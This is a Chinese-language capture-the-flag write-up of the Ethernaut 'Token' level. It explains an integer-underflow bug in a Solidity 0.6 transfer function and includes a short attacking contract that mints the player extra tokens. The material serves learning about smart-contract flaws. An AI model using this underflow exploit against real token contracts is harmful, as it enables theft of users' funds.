




# Token

## 题目

目标：你最开始有20个 token, 如果你通过某种方法可以增加你手中的 token 数量,你就可以通过这一关,当然越多越好

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Token {

  mapping(address => uint) balances;
  uint public totalSupply;

  constructor(uint _initialSupply) public {
    balances[msg.sender] = totalSupply = _initialSupply;
  }

  function transfer(address _to, uint _value) public returns (bool) {
    require(balances[msg.sender] - _value >= 0);
    balances[msg.sender] -= _value;
    balances[_to] += _value;
    return true;
  }

  function balanceOf(address _owner) public view returns (uint balance) {
    return balances[_owner];
  }
}
```

## 分析

先看编译器版本，`^0.6.0`，且没用SafeMath库，所以可能出现整数溢出漏洞

我们想要获取更多的钱，只有transfer这个方法。我们发现`balances[msg.sender] - _value >= 0`这个代码有问题，满足整数溢出漏洞的情况。他说我们一开始有20代币，然后我将我的钱包地址输入`balanceOf(address _owner)`，确实有20。然后我认为，只要transfer的_value参数大于20，就会发生整数溢出漏洞，我的钱数就会变得很大。

然后我就这么操作：



但是这样是失败的，我的钱数还是20没变化。分析原因：下面这两行代码，`balances[msg.sender] - _value >= 0`(20-666溢出了，所以可以通过检测)。然后`balances[msg.sender] -= _value`，我的钱包20元减去666会溢出变成一个很大的数，但是`balances[_to] += _value`又往我的钱包加了666，那么再次溢出变回20元。

```solidity
function transfer(address _to, uint _value) public returns (bool) {
    require(balances[msg.sender] - _value >= 0);
    balances[msg.sender] -= _value;
    balances[_to] += _value;
    return true;
  }
```

为什么会出现这个情况呢？因为我们接收钱的地址`_to`和`msg.sender`是一样的，所以钱数不会变。因此我们的`_to`和msg.sender要设置成不一致的，即：我们可以用合约来调用函数，这样合约就是`msg.sender`，我的钱包地址是`_to`，这样就满足了条件

## 攻击代码

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Token {

  mapping(address => uint) balances;
  uint public totalSupply;

  constructor(uint _initialSupply) public {
    balances[msg.sender] = totalSupply = _initialSupply;
  }

  function transfer(address _to, uint _value) public returns (bool) {
    require(balances[msg.sender] - _value >= 0);
    balances[msg.sender] -= _value;
    balances[_to] += _value;
    return true;
  }

  function balanceOf(address _owner) public view returns (uint balance) {
    return balances[_owner];
  }
}

contract Hack{
	//题目地址
    Token token = Token(0x11a797d3EA336b54Cd48658F873282E2489AF42b);
    function attack() public{
    	//第一个参数是我的钱包地址
        token.transfer(0xd3E65149C212902749D49011B6ab24bba30D97c6, 666);
    }
}
```

## 做题

获取实例，发起攻击：我的钱包地址20+666=686元



同时发现合约的余额变成一个很大的数：`0-666=115792089237316195423570985008687907853269984665640564039457584007913129639270`



通过




